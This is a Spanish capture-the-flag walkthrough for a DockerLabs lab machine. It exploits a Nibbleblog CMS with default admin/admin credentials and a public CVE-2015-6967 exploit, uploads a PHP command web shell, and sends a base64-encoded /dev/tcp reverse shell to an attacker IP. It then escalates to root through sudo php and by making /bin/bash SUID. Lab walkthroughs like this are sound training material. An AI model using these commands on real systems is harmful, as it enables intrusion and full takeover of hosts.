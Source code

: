 # Maquina ChocolateLovers - DockerLabs.es

![alt text](MaquinaChocolateLovers/image.png)

Verificar que la maquina este desplegada correctamente

![alt text](MaquinaChocolateLovers/image-31.png)

Realizamos un ping a la máquina para verificar la comunicación y confirmamos que la conexión es exitosa.

![alt text](MaquinaChocolateLovers/image-2.png)

A continuación, realizamos un escaneo de la IP utilizando Nmap.

![alt text](MaquinaChocolateLovers/image-3.png)

Observamos que el puerto 80 esta abierto. Ahora realizamos un escaneo adicional para detectar, enumerar servicios y versiones.

![alt text](MaquinaChocolateLovers/image-4.png)

Vemos que el puerto 80 correo un servicio de Http Apache 2.4.41, si accedemos desde el navegador veremos lo siguiente

![alt text](MaquinaChocolateLovers/image-5.png)

Al revisar el código fuente de la página, podemos observar un comentario que incluye una ruta de la forma `/nibbleblog`.

![alt text](MaquinaChocolateLovers/image-6.png)

Si accedemos a esa ruta, encontraremos lo siguiente:

![alt text](MaquinaChocolateLovers/image-7.png)

Observamos que hay un enlace que dice `http://172.17.0.2/nibbleblog/admin.php`. Al acceder a este enlace, seremos redirigidos a una página de inicio de sesión.

![alt text](MaquinaChocolateLovers/image-8.png)

Si intentamos iniciar sesión con credenciales comunes, como el usuario `admin` y la contraseña `admin`, descubriremos que es posible acceder al sistema.

![alt text](MaquinaChocolateLovers/image-9.png)

Si realizamos una breve búsqueda en Google sobre ¿Qué es Nibbleblog?, descubriremos que se trata de un CMS diseñado para crear blogs.

Al acceder a la sección de "Settings" de la aplicación, podemos encontrar la versión del CMS en la parte inferior de la página.

![alt text](MaquinaChocolateLovers/image-10.png)

![alt text](MaquinaChocolateLovers/image-11.png)

Si buscamos un exploit para esa versión de Nibbleblog, encontraremos varios disponibles en GitHub. En mi caso, clonaremos el repositorio correspondiente utilizando el siguiente comando:

`git clone https://github.com/dix0nym/CVE-2015-6967.git`

![alt text](MaquinaChocolateLovers/image-12.png)

Al examinar el código fuente del exploit, notamos que requiere varios parámetros, tales como la URL, el nombre de usuario, la contraseña y un payload que se subirá al servidor.

![alt text](MaquinaChocolateLovers/image-13.png)

Ahora crearemos un Payload en PHP para usarlo en el parametro que lo requiere...

Creare el Payload de la siguiente manera, esto me permitira ejecutar comandos en el sistema desde un parametro llamado `cmd` que recibira el archibo `pwned.php` al ser llamado...

![alt text](MaquinaChocolateLovers/image-14.png)

Ahora ejecutaremos el exploit que descargamos de la siguiente manera:

`python exploit.py --url http://172.17.0.2/nibbleblog/ --username admin --password admin --payload nombrePayload.php`

Y notaremos que aparece un error que indica "Upload likely failed".

![alt text](MaquinaChocolateLovers/image-15.png)

Al analizar detenidamente el código fuente del exploit, notamos que su función principal es aprovecharse de un plugin llamado **My Image**, que aparentemente permite la subida de archivos. Además, observamos que el exploit intenta ejecutar un archivo llamado **image.php**, que debe haber sido subido previamente.

![alt text](MaquinaChocolateLovers/image-16.png)

Si revisamos la lista de plugins instalados en Nibbleblog, notaremos que el plugin **My Image** no está presente.

![alt text](MaquinaChocolateLovers/image-17.png)

Entonces, procederemos a instalar el plugin **My Image** y, a continuación, intentaremos ejecutar el exploit nuevamente.

Ahora podemos observar que el archivo se ha subido correctamente.

![alt text](MaquinaChocolateLovers/image-18.png)

Si revisamos la ruta `http://172.17.0.2/nibbleblog/content/private/plugins/my_image/`, podremos ver el archivo `image.php`.

![alt text](MaquinaChocolateLovers/image-19.png)

Además, al utilizar el parámetro cmd definido en el payload que subimos, podemos ejecutar comandos a nivel de sistema.

![alt text](MaquinaChocolateLovers/image-20.png)

Ahora solamente tenemos que enviarnos una reverse shell a nuestra maquina atacante.

Convertimos nuestra reverse shell (que se conecta al puerto 4444) en Base64 usando el siguiente comando:

`echo "sh -i >& /dev/tcp/172.16.1.131/4444 0>&1" | base64`

Esto produce el siguiente resultado en Base64:
`c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=`

![alt text](MaquinaChocolateLovers/image-21.png)

Ahora, pondremos nuestra máquina atacante a la escucha utilizando Netcat con el siguiente comando:

`nc -nvlp 4444`

![alt text](MaquinaChocolateLovers/image-22.png)

Ahora, si enviamos el siguiente comando en el parámetro cmd del archivo `image.php`:

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=" | base64 -d | bash`

Desde el navegador, podemos hacerlo de la siguiente manera:
Ingresamos la siguiente URL en el navegador:

`http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo%3D%22%20%7C%20base64%20-d%20%7C%20bash`

Y luego presionamos enter.

Esto ejecutará el comando, y deberíamos recibir una conexión en Netcat, confirmando que hemos logrado acceder al sistema.

![alt text](MaquinaChocolateLovers/image-23.png)

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`

Luego presionamos: `Ctrl + Z` para suspender el proceso

A continuación, escribimos: `stty raw -echo; fg`

Despues ingresamos: `reset`

Cuando se nos pregunte: "Terminal type?" Ingresamos `xterm`.

Finalmente, exportamos las siguientes variables de entorno: `export TERM=xterm` `export SHELL=bash`

Y listo!

## Escalada de Privilegios

Si ejecutamos sudo -l, observaremos que tenemos permisos para ejecutar el binario /usr/bin/php como el usuario chocolate sin necesidad de proporcionar una contraseña. Podemos aprovechar estos permisos para escalar nuestros privilegios al usuario chocolate de la siguiente manera:

`sudo -u chocolate /usr/bin/php -r "system('/bin/bash');"`

Después de ejecutar este comando, deberíamos ver que ahora somos el usuario chocolate.

![alt text](MaquinaChocolateLovers/image-24.png)

Si ejecutamos el comando `ps -faux`, veremos que el usuario root está ejecutando un script ubicado en la ruta `/opt/script.php`.

![alt text](MaquinaChocolateLovers/image-25.png)

Al revisar el contenido de ese archivo, notamos que no contiene información interesante. Sin embargo, como somos los propietarios del archivo con el usuario chocolate, podemos modificarlo para incluir código PHP que se ejecute con privilegios de root. Esto nos permitirá abrir una puerta trasera y facilitar la escalada de privilegios.

![alt text](MaquinaChocolateLovers/image-27.png)

Lo que haremos será editar dicho archivo y agregar lo siguiente:

`echo "<?php system('chmod +s /bin/bash'); ?>" > script.php`

Esto lo que hara es dar permisos SUID a la `bash`, lo cual podemos explotar luego para escalar privilegios...

![alt text](MaquinaChocolateLovers/image-28.png)

Ahora si vemos los permisos que tiene la `/bin/bash` notaremos una letra `s` que quiere decir que tiene permisos SUID...

![alt text](MaquinaChocolateLovers/image-29.png)

Ahora explotaremos esos permisos agregados a la `bash` de la siguiente manera `/bin/bash -p`

Y vemos que ahora somos root.

![alt text](MaquinaChocolateLovers/image-30.png)
